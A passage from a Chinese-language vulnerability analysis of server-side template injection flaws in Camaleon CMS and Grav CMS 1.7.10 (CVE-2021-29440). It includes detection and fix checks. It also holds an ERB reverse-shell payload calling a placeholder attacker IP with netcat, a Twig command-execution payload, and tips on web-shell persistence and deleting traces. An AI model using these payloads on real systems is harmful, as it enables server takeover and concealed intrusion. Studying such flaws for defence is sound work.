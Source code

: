    ```
------

### **攻击链扩展**

- **横向渗透**：通过读取数据库配置文件（如`config/database.yml`）获取数据库权限。
- **RCE升级**：结合`system("id")`或反连Shell（如`<% system("nc -e /bin/sh 攻击者IP 端口") %>`）。
- **持久化后门**：篡改模板文件植入Web Shell。

------

### **检测与修复验证**

1. **漏洞检测**：
   - 注入`test<%= 7*7 %>test`，检查响应是否包含`49`。
2. **修复验证**：
   - 确认`formats`参数已过滤ERB语法，`<%=`被转义为安全字符。
   - 验证`File.open`等函数无法在模板中调用。

------

**总结**：Camaleon CMS的SSTI漏洞通过文件上传接口的`formats`参数直接执行Ruby代码，攻击路径清晰且危害性高。需结合输入过滤、权限隔离和版本升级进行防御。

## 九、 Grav CMS 1.7.10 SSTI漏洞分析

[Grav CMS 1.7.10 - Server-Side Template Injection (SSTI) (Authenticated) - PHP webapps Exploit](https://www.exploit-db.com/exploits/49961)

### **漏洞概述**

**漏洞名称**：Grav CMS 1.7.10 - 服务端模板注入（SSTI）
**CVE编号**：CVE-2021-29440
**风险等级**：高危
**影响版本**：Grav CMS 1.7.10
**漏洞类型**：服务端模板注入（SSTI）
**利用后果**：攻击者可执行任意系统命令，完全控制服务器。

------

### **漏洞复现步骤**

1. **登录系统**

   - 使用管理员账号（需页面创建权限）登录后台。

2. **创建恶意页面**

   - 进入页面创建功能（`/admin/pages`），在页面内容字段注入Twig Payload：

     ```
  {{ system('id') }}  
     ```

3. **触发漏洞**

   - 访问创建的页面，触发模板渲染并执行命令，返回命令结果（如用户ID）。

4. **清理痕迹**

   - 删除创建的页面，避免被检测。

------

### **漏洞原理分析**
   ```